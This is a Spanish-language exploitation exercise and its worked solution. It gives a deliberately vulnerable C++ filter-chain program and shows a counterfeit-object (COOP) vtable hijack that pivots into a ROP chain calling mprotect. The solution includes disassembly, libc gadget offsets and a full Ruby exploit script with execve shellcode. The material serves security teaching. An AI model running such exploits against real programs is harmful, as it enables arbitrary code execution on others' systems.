







# PTR-02

**Objetivo**: Explotar el programa cuyo código listamos a continuación para lograr ejecutar código arbitrario. Se recomienda aprovechar el hecho de que el objeto chain se encuentra en el stack.

```c++
/* ptr-02.cpp
 *
 * Compilar con g++ ptr-02.cpp -o ptr-02 -ldl
 *
 * Aparentemente, C++ nos hace un poco más difícil obtener las direcciones
 * de funciones en libc. Para ello hemos tenido que usar dlsym. Para usar dlsym,
 * sin embargo, es necesario pasarle el flag -ldl a g++. Nótese que esto solo
 * aplica a nivel código fuente. El procedimiento de explotación sigue siendo
 * el mismo que venimos estudiando.
 *
 */

#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <dlfcn.h>
#include <unistd.h>
#include <iostream>

//================================================================================
// Packet
//--------------------------------------------------------------------------------

/*
 * La clase Packet representa algún tipo de paquete de datos. Por ejemplo,
 * un paquete TCP, o un mensaje en algún formato. Para nuestros fines, el 
 * contenido en concreto no importa demasiado, por lo que hemos dejado
 * la clase en blanco.
 *
 */
class Packet {
};

//================================================================================
// Filter
//--------------------------------------------------------------------------------

/*
 * La clase filter representa un filtro que actua sobre objetos Packet.
 * Un Filter es un nodo en una cadena de filtros, estructurada como una
 * lista enlazada. Las implementaciones concretas solo deben implementar
 * el método filter, sin preocuparse por la estructura interna de la 
 * cadena.
 *
 */
class Filter {

private:
  Filter *next;

public:

  Filter() {
    this->next = 0;
  }

  Filter *get_next() {
    return this->next;
  }

  void set_next(Filter *next) {
    this->next = next;
  }

  virtual void filter(Packet &p) = 0;

};

//================================================================================
// FilterChain
//--------------------------------------------------------------------------------

/*
 * La clase FilterChain representa una cadena de filtros, a la cuál se pueden
 * agregar instancias una por una.
 *
 */
class FilterChain {

private:
  Filter *first;
  Filter *last;

public:

  FilterChain() {
    this->first = this->last = 0;
  }

  bool filter(Packet &p) {
    Filter *current = first;

    while (current) {
      current->filter(p);
      current = current->get_next();
    }
  }

  void add_filter(Filter *filter) {
    if (last) {
      last->set_next(filter);
    } else {
      first = last = filter;
    }
  }

};

//================================================================================
// EncodingFilter
//--------------------------------------------------------------------------------

/*
 * EncodingFilter es un ejemplo de una implementación concreta de un filtro.
 *
 */
class EncodingFilter : public Filter {
public:

  void filter(Packet &p) {
    /* Hace algo con p, posiblemente modificándolo en el proceso.
     * La implementación concreta no nos interesa demasiado.
     */
  }

};


//================================================================================
// main y otras cosas
//--------------------------------------------------------------------------------

const char *fifo_path = "/tmp/ptr-02-input";

void write_to(void *where) {
  mkfifo(fifo_path, 0600);
  int fifo = open(fifo_path, O_RDONLY);
  read(fifo, where, 1024);
  close(fifo);
  unlink(fifo_path);
}


int main() {
  FilterChain chain;
  EncodingFilter encoding_filter;
  chain.add_filter(&encoding_filter);
    

  // Explotando primitivas de lectura obtenemos o calculamos los siguientes valores:
  std::cout << std::endl;

  // &mprotect
  std::cout << "&mprotect: " << dlsym(RTLD_NEXT, "mprotect") << std::endl << std::endl;

  // &chain
  std::cout << "&chain: " << &chain << std::endl << std::endl;


  // Supongamos que explotamos una primitiva de escritura que nos permite
  // escribir a partir de &chain:
  write_to(&chain);

  // Objetivo: lograr ejecutar shellcode.

  Packet p;
  chain.filter(p);
  return 0;
}
```


### Solución

Como podremos observar en el código, el programa nos ofrece la posibilidad de escribir datos arbitrarios a partir de la dirección del objeto `chain` en el stack. La forma más fácil de resolver el problema sería probablemente crear una cadena de ROP a partir de la dirección de retorno de `main`. La presencia de un canario con valor desconocido, sin embargo, previene dicha aproximación, como podremos confirmar si analizamos el código assembly de la función `main`. Alternativamente, podremos notar que la llamada al método `filter` del objeto chain da inicio a un proceso iterativo a través de una lista enlazada de lo que el modelo de clases se denomina "filtros". Cada uno de estos filtros implementa una versión concreta del método virtual `filter`. Como habíamos visto en el [resumen sobre la implementación de C++ a nivel assembly](../cpp/cpp.md), ésto implica que cada objeto `Filter` tendrá una referencia a una tabla de métodos virtuales utilizada en tiempo de ejecución para determinar qué versión concreta de un cierto método ejecutar. Una tabla de métodos virtuales es esencialmente un arreglo de punteros. Controlar dicha tabla nos permitirá entonces controlar el flujo de ejecución.

Para resolver el problema en cuestión, lo que podemos hacer entonces es crear, a partir de la dirección del objeto `chain`, una estructura en general como la siguiente:




Veamos cómo funciona este esquema. Veamos primero el código de `FilterChain::filter`:

```
00000000000011ba <_ZN11FilterChain6filterER6Packet>:
    11ba:	55                   	push   rbp
    11bb:	48 89 e5             	mov    rbp,rsp
    11be:	48 83 ec 20          	sub    rsp,0x20
    11c2:	48 89 7d e8          	mov    QWORD PTR [rbp-0x18],rdi
    11c6:	48 89 75 e0          	mov    QWORD PTR [rbp-0x20],rsi
    11ca:	48 8b 45 e8          	mov    rax,QWORD PTR [rbp-0x18]
    11ce:	48 8b 00             	mov    rax,QWORD PTR [rax]
    11d1:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
    11d5:	48 83 7d f8 00       	cmp    QWORD PTR [rbp-0x8],0x0
    11da:	74 2c                	je     1208 <_ZN11FilterChain6filterER6Packet+0x4e>
    11dc:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
    11e0:	48 8b 00             	mov    rax,QWORD PTR [rax]
    11e3:	48 8b 00             	mov    rax,QWORD PTR [rax]
    11e6:	48 8b 4d e0          	mov    rcx,QWORD PTR [rbp-0x20]
    11ea:	48 8b 55 f8          	mov    rdx,QWORD PTR [rbp-0x8]
    11ee:	48 89 ce             	mov    rsi,rcx
    11f1:	48 89 d7             	mov    rdi,rdx
    11f4:	ff d0                	call   rax
    11f6:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
    11fa:	48 89 c7             	mov    rdi,rax
    11fd:	e8 64 ff ff ff       	call   1166 <_ZN6Filter8get_nextEv>
    1202:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
    1206:	eb cd                	jmp    11d5 <_ZN11FilterChain6filterER6Packet+0x1b>
    1208:	90                   	nop
    1209:	c9                   	leave  
    120a:	c3                   	ret
```

Cuando comience la ejecución de la función `filter` del objeto `chain`, la dirección `&chain` estará en el registro rdi. Luego, las instrucciones

```
    11c2:	48 89 7d e8          	mov    QWORD PTR [rbp-0x18],rdi
    11c6:	48 89 75 e0          	mov    QWORD PTR [rbp-0x20],rsi
    11ca:	48 8b 45 e8          	mov    rax,QWORD PTR [rbp-0x18]
    11ce:	48 8b 00             	mov    rax,QWORD PTR [rax]
    11d1:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
    11d5:	48 83 7d f8 00       	cmp    QWORD PTR [rbp-0x8],0x0
    11da:	74 2c                	je     1208 
```

cargarán en el registro rax la dirección almacenada en `&chain`, el puntero `first` del objeto `chain`. En nuestro esquema, a dicha dirección la llamamos `&filter1`. Ya que controlamos los datos a partir de `&chain`, podemos ciertamente hacer que esta dirección sea no nula, con lo cuál la ejecución continuará sin efectuar el salto.

Sabemos ahora que en rax estará la dirección `&filter1`. Las instrucciones

```
    11dc:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
    11e0:	48 8b 00             	mov    rax,QWORD PTR [rax]
    11e3:	48 8b 00             	mov    rax,QWORD PTR [rax]
    11e6:	48 8b 4d e0          	mov    rcx,QWORD PTR [rbp-0x20]
    11ea:	48 8b 55 f8          	mov    rdx,QWORD PTR [rbp-0x8]
    11ee:	48 89 ce             	mov    rsi,rcx
    11f1:	48 89 d7             	mov    rdi,rdx
    11f4:	ff d0                	call   rax
```

tomarán primero la dirección `&vtable1` almacenada en `&filter1`, y luego tomarán la dirección almacenada en `&vtable1`, es decir la dirección `&gadget1`. Observaremos entonces que la llamada indirecta enviará la ejecución a "gadget1", el cuál retornará luego para continuar ejecutando

    11f6:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
    11fa:	48 89 c7             	mov    rdi,rax
    11fd:	e8 64 ff ff ff       	call   1166 <_ZN6Filter8get_nextEv>
    1202:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
    1206:	eb cd                	jmp    11d5 
Estas instrucciones ejecutarán el método `get_next` sobre el objeto `filter1`. El código assembly de dicho método lo listamos a continuación:

```
0000000000001166 <_ZN6Filter8get_nextEv>:
    1166:	55                   	push   rbp
    1167:	48 89 e5             	mov    rbp,rsp
    116a:	48 89 7d f8          	mov    QWORD PTR [rbp-0x8],rdi
    116e:	48 8b 45 f8          	mov    rax,QWORD PTR [rbp-0x8]
    1172:	48 8b 40 08          	mov    rax,QWORD PTR [rax+0x8]
    1176:	5d                   	pop    rbp
    1177:	c3                   	ret
```

El resultado de la ejecución de este método será que en rax se almacenará la dirección guardada en `&filter1 + 8`: la dirección de `filter2`. Ciertamente, podemos hacer que esta dirección sea no nula tal que el ciclo continúe con `filter2`, ejecutando gadget2, para luego continuar con `filter3`, y así sucesivamente.

Lo que hemos logrado entonces es aplicar nuestros conocimientos sobre la implementación de C++ a nivel assembly para desarrollar un mecanismo que nos permitirá ejecutar una secuencia de gadgets arbitrarios y así lograr concretar nuestro exploit, tal como lo hacíamos con ROP. Más precisamente, en esta solución estaremos aplicando una versión simplificada de una técnica en general denominada Counterfeit Object Oriented Programming (COOP) [1]. Desarrollar un exploit solo con COOP tiene sus complejidades, por lo que en este caso nos limitaremos a utilizar una cadena de COOP muy corta (un solo gadget) para transicionar a un ROP tradicional mediante un stack pivot, aprovechando que tenemos control del stack. Nótese que  el paper original [1] hace referencia a técnicas y a mitigaciones que no hemos estudiado todavía, con lo cuál podría ser buena idea dejar la fuente original para más adelante y tratar de entender la idea fundamental de la técnica con la explicación anterior.


Veamos entonces cómo construir nuestro exploit. Observemos primero lo siguiente. Siguiendo el código del programa llegamos a que, al momento de ejecutar nuestro primer gadget, el esquema del stack es algo así como el siguiente:




Cada uno de los bloques mide 8 bytes. Sabemos entonces que la distancia desde la dirección a la que apunta rsp, hasta la dirección del objeto chain, es de 0x48 bytes. Consideremos ahora el siguiente gadget, disponible en libc-2.27.so:

```
0x000000000010fcae : add rsp, 0x68 ; ret
```

Podemos encontrar este gadget, entre otros similares, ejecutando el siguiente comando:

```bash
ROPgadget --binary /lib/x86_64-linux-gnu/libc-2.27.so --nojop | grep "add rsp"
```

Habiendo estudiado la estructura del stack al momento de ejecutar nuestros gadgets, y habiendo identificado este gadget particular, lo que podemos hacer ahora es considerar construir a partir de `&chain` una estructura como la siguiente:



Lo que haremos  concretamente es reemplazar el objeto `chain` por uno con un puntero a un filtro ficticio definido por nosotros, también en el stack. Dicho filtro tendrá un puntero a una tabla virtual ficticia y un puntero `next` nulo (aunque este último es, en esta solución particular, irrelevante para nuestros fines; podríamos no incluirlo). En la primera y única entrada de nuestra tabla virtual ficticia habrá un puntero a nuestro gadget, el encargado de sumarle `0x68` al valor almacenado en rsp, lo que causará que dicho registro apunte precisamente al inicio de una cadena de ROP definida a partir de `&chain + 0x20`. Con ello, tras la ejecución del primer gadget, rsp apuntará a `&chain + 0x20` y nuestro exploit continuará tal como vimos en ejercicios anteriores, ejecutando gadget por gadget hasta llamar eventualmente a `mprotect`. Habiendo diseñado el plan, lo único que resta ahora es encontrar los otros gadgets que necesitamos (e.g. pops) para llevar a cabo la llamada, y también debemos determinar los desplazamientos relativos a `mprotect`, que es la dirección en libc que conocemos.

Para encontrar el desplazamiento de `mprotect` hasta nuestro primer gadget podemos primero buscar el offset de `mprotect` en el binario de libc:

```bash
nm -D /lib/x86_64-linux-gnu/libc-2.27.so | grep mprotect
```



Calculamos luego la distancia desde mprotect hasta nuestro gadget como

```
0x10fcae - 0x11bae0 = -0xbe32
```


Procedemos de la misma forma con los otros gadgets que necesitamos, los cuales podemos hallar usando alguna herramienta como ROPgadget:



```
0x2155f - 0x11bae0 = -0xfa581   # pop rdi ; ret
0x23e6a - 0x11bae0 = -0xf7c76   # pop rsi ; ret
0x01b96 - 0x11bae0 = -0x119f4a  # pop rdx ; ret
```


Escribimos un script en Ruby, similar al que habíamos usado para resolver los ejercicios anteriores:

```ruby
#!/usr/bin/ruby

# generate-input.rb

payload = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05".force_encoding("ASCII-8BIT")


# Completar con la dirección de mprotect.
addr_mprotect = 0x0

# Completar con la dirección de chain.
addr_chain = 0x0


# Generamos la entrada.
chain = [
    addr_chain + 0x08,
    addr_chain + 0x18,
    0x0,
    addr_mprotect - 0xbe32,
    addr_mprotect - 0xfa581,    # pop rdi ; ret
    addr_chain & ~0xfff,
    addr_mprotect - 0xf7c76,    # pop rsi ; ret
    0x100,
    addr_mprotect - 0x119f4a,   # pop rdx ; ret
    0x7,
    addr_mprotect,
    addr_chain + 0x60
].pack(">Q*")

# Generamos el exploit.
print chain + payload.force_encoding("ASCII-8BIT")
```


Procedemos ahora a ejecutar el programa, a reemplazar los valores, y a ejecutar nuestro exploit:

```bash
g++ ptr-02.cpp -o ptr-02 -ldl
```




Completamos en el script con los valores provistos:

```ruby
# Completar con la dirección de mprotect.
addr_mprotect = 0x7fc316907ae0

# Completar con la dirección de chain.
addr_chain = 0x7ffce8087ac0
```


Procedemos entonces a ejecutar el script, enviando la salida a `/tmp/ptr-02-input`. Si hacemos ésto, deberíamos poder observar algo como lo siguiente:




Como era de esperarse, nuestro exploit es exitoso y nuestro payload se ejecuta satisfactoriamente.


## Conclusión

Con este ejercicio hemos podido practicar la ejecución de un ataque con ROP basado en la manipulación de objetos de C++. Concretamente, vimos cómo podemos modificar punteros en tablas virtuales para lograr ejecutar código arbitrario. Adicionalmente, tuvimos una pequeña introducción a los fundamentos de la técnica denominada Counterfeit OOP, que consiste en el encadenamiento de llamadas a objetos ficticios, creados por el atacante, para lograr la ejecución de un payload en forma análoga a como lo hacíamos con ROP. Para aprender más de COOP se recomienda consultar [1], aunque se recomienda leer primero los resúmenes en la segunda sección sobre mitigaciones.


## Referencias

[1] Schuster, Tendyck, Liebchen, Davi, Sadeghi & Holz (2015). *Counterfeit Object-oriented Programming: On the Difficulty of Preventing Code Reuse Attacks in C++ Applications*.